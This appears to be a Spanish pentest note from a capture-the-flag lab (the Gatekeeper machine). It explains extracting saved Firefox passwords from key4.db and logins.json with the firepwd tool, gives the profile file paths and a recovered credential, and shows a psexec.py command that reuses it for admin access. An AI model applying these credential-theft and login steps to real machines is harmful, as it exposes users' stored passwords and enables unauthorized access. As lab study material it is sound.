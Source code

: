es una herramienta para recuperar contraseñas almacenadas en navegadores Firefox. Su funcionamiento se basa en descifrar los datos de contraseñas que Firefox guarda en archivos como `key3.db` o `key4.db`, utilizando algoritmos de cifrado como 3DES y AES

Para poder obtener las contraseñas es necesario tener los dos siguientes ficheros
- **logins.json**: Contiene las credenciales almacenadas, incluyendo nombres de usuario y contraseñas cifradas.
- **Key3.db / key4.db**: Archivos de la base de datos que contienen las claves de cifrado necesarias para descifrar las contraseñas.

```
https://github.com/lclevy/firepwd
```

# **URL's**
Estas son las rutas de los dos ficheros
## **Key4.db**
```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release\key4.db
```

## **Login.json**
```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release\logins.json
```

# Ejemplo Firepwd
Descargamos el script y al ejecutarlo nos encuentra unas credenciales
```
mayor:8CL7O1N78MdrCIsV
```
![[Pasted image 20240726075116.png]]
![[Pasted image 20240726075150.png]]

Accedemos con psexec y ya somos admin
```
psexec.py WORKGROUP/mayor:8CL7O1N78MdrCIsV@10.10.3.123
```
![[Pasted image 20240726080845.png]]

Realizado en maquina[[MAQUINA GATEKEEPER (Buffer overflow con badchars y escalada de privilegios obteniendo contraseñas de firefox con firepwd)]]